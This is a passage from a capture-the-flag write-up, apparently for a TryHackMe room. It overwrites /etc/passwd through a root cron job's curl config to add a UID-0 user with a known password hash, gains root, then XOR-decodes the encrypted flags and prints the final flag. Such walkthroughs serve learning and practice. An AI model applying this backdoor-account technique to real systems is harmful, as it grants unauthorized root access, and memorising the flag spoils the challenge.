sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
Debian-exim:x:101:103::/var/spool/exim4:/usr/sbin/nologin
ayham:x:1000:1000::/home/ayham:/bin/bash
F30s:x:1001:1001::/home/F30s:/bin/bash
```



We want to create similiar `/etc/passwd` file, however we'll add line for our new `elicopter` user, with root privileges, and the hash of the password `elicopter`.

This will be the file `our_passwd`:
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
Debian-exim:x:101:103::/var/spool/exim4:/usr/sbin/nologin
ayham:x:1000:1000::/home/ayham:/bin/bash
F30s:x:1001:1001::/home/F30s:/bin/bash
elicopter:$1$yYTpDTv9$cBIDssVsxDaepJFGCGtho.:0:0:root:/root:/bin/bash
```

And we want to insert this into `~/site_check`
```bash
url = "file:///tmp/our_passwd"
output = "/etc/passwd"
```



Now, we can wait about a minute for the cronjob to run. We can see the user has been added!



Let's `su` to `elicopter` with the password `elicopter`.

```bash
F30s@482cbf2305ae:/tmp$ su elicopter
Password: 
root@482cbf2305ae:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```



### Decrypt the root flag

I tried to read the flags, however, they are encrypted or something.

```bash
root@482cbf2305ae:~# ls
flag2.txt  secret.txt
root@482cbf2305ae:~# cat flag2.txt 
b'ey}BQB_^[\\ZEnw\x01uWoY~aF\x0fiRdbum\x04BUn\x06[\x02CHonZ\x03~or\x03UT\x00_\x03]mD\x00W\x02gpScL'
root@482cbf2305ae:~# cat secret.txt 
b'C^_M@__DC\\7,'
```


Inside `/` folder, i've found `secret-tip.txt`.
```bash
root@482cbf2305ae:/# cat secret-tip.txt 
A wise *gpt* once said ...
In the depths of a hidden vault, the mastermind discovered that vital ▒▒▒▒▒ of their secret ▒▒▒▒▒▒ had vanished without a trace. They knew their ▒▒▒▒▒▒▒ was now vulnerable to disruption, setting in motion a desperate race against time to recover the missing ▒▒▒▒▒▒ before their ▒▒▒▒▒▒▒ unraveled before their eyes.
So, I was missing 2 .. hmm .. what were they called? ... I actually forgot, anyways I need to remember them, they're important. The past/back/before/not after actually matters, follow it!
Don't forget it's always about root!
```

We can xor `secret.txt` with `root`, "It always about root".

We can get the hex string using python:


```bash
┌──(agonen㉿kali)-[~/thm/SuperSecretTIp]
└─$ python3                    
Python 3.13.7 (main, Aug 20 2025, 22:17:40) [GCC 14.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(b'C^_M@__DC\\7,'.hex())
435e5f4d405f5f44435c372c
>>> print(b'ey}BQB_^[\\ZEnw\x01uWoY~aF\x0fiRdbum\x04BUn\x06[\x02CHonZ\x03~or\x03UT\x00_\x03]mD\x00W\x02gpScL'.hex())
65797d4251425f5e5b5c5a456e770175576f597e61460f69526462756d0442556e065b0243486f6e5a037e6f72035554005f035d6d44005702677053634c
```

[https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Latin1','string':'root'%7D,'Standard',false)&input=NDM1ZTVmNGQ0MDVmNWY0NDQzNWMzNzJj&oeol=FF](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Latin1','string':'root'%7D,'Standard',false)&input=NDM1ZTVmNGQ0MDVmNWY0NDQzNWMzNzJj&oeol=FF)



we get:
```bash
1109200013XX
```

After some brute force, i found out the key is:
```bash
110920001386
```

[https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'UTF8','string':'110920001386'%7D,'Standard',false)&input=NjU3OTdkNDI1MTQyNWY1ZTViNWM1YTQ1NmU3NzAxNzU1NzZmNTk3ZTYxNDYwZjY5NTI2NDYyNzU2ZDA0NDI1NTZlMDY1YjAyNDM0ODZmNmU1YTAzN2U2ZjcyMDM1NTU0MDA1ZjAzNWQ2ZDQ0MDA1NzAyNjc3MDUzNjM0Yw&oeol=VT](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'UTF8','string':'110920001386'%7D,'Standard',false)&input=NjU3OTdkNDI1MTQyNWY1ZTViNWM1YTQ1NmU3NzAxNzU1NzZmNTk3ZTYxNDYwZjY5NTI2NDYyNzU2ZDA0NDI1NTZlMDY1YjAyNDM0ODZmNmU1YTAzN2U2ZjcyMDM1NTU0MDA1ZjAzNWQ2ZDQ0MDA1NzAyNjc3MDUzNjM0Yw&oeol=VT)


And we got the flag.

```bash
THM{cronjobs_F1Le_iNPu7_cURL_4re_5c4ry_Wh3N_C0mb1n3d_t0g3THeR}
```
